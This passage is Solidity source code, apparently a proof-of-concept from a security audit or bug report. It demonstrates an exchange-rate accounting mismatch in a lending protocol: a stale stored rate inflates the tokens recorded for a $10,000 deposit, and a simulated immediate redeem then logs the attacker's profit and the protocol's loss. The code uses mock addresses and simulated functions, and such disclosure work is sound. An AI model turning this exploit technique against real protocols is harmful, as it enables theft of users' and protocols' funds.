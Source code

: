```solidity
    uint256 public staleStoredRate = 2.1e18;    // Stale rate: 2.1 (hasn't been updated)
    uint256 public currentRate = 2.205e18;      // Current rate: 2.205 (5% higher due to interest)
    
    // Attack parameters
    uint256 public constant ATTACK_AMOUNT = 10000e18;  // $10,000 attack
    
    event ExploitExecuted(
        uint256 depositAmount, 
        uint256 recordedTokens, 
        uint256 actualTokens, 
        uint256 inflationAmount
    );
    
    event ProfitCalculated(
        uint256 withdrawnAmount, 
        uint256 depositedAmount, 
        uint256 profit
    );
    
    constructor() {
        attacker = msg.sender;
        mockLToken = address(0x1);
        mockLendStorage = address(0x2);
        mockToken = address(0x3);
    }
    
    function demonstrateVulnerability() external {
        console.log("=== EXCHANGE RATE ACCOUNTING MISMATCH EXPLOIT ===");
        console.log("Attack amount: $", ATTACK_AMOUNT / 1e18);
        console.log("Stale stored rate:", staleStoredRate);
        console.log("Current actual rate:", currentRate);
        
        uint256 rateDifference = ((currentRate - staleStoredRate) * 100) / staleStoredRate;
        console.log("Rate difference: %", rateDifference);
        
        // Simulate the vulnerable supply function
        (uint256 recordedTokens, uint256 actualTokens) = _simulateVulnerableSupply();
        
        // Calculate the accounting mismatch
        uint256 inflationAmount = recordedTokens - actualTokens;
        console.log("\n--- SUPPLY PHASE RESULTS ---");
        console.log("Tokens recorded in storage:", recordedTokens);
        console.log("Tokens actually minted:", actualTokens);
        console.log("Inflation amount:", inflationAmount);
        
        emit ExploitExecuted(ATTACK_AMOUNT, recordedTokens, actualTokens, inflationAmount);
        
        // Simulate immediate redeem with inflated balance
        uint256 withdrawnAmount = _simulateVulnerableRedeem(recordedTokens);
        
        // Calculate profit
        uint256 profit = withdrawnAmount - ATTACK_AMOUNT;
        console.log("\n--- REDEEM PHASE RESULTS ---");
        console.log("Amount withdrawn:", withdrawnAmount);
        console.log("Amount deposited:", ATTACK_AMOUNT);
        console.log("Attacker profit:", profit);
        console.log("Protocol loss:", profit);
        
        emit ProfitCalculated(withdrawnAmount, ATTACK_AMOUNT, profit);
    }
    
    function _simulateVulnerableSupply() internal view returns (uint256 recordedTokens, uint256 actualTokens) {
```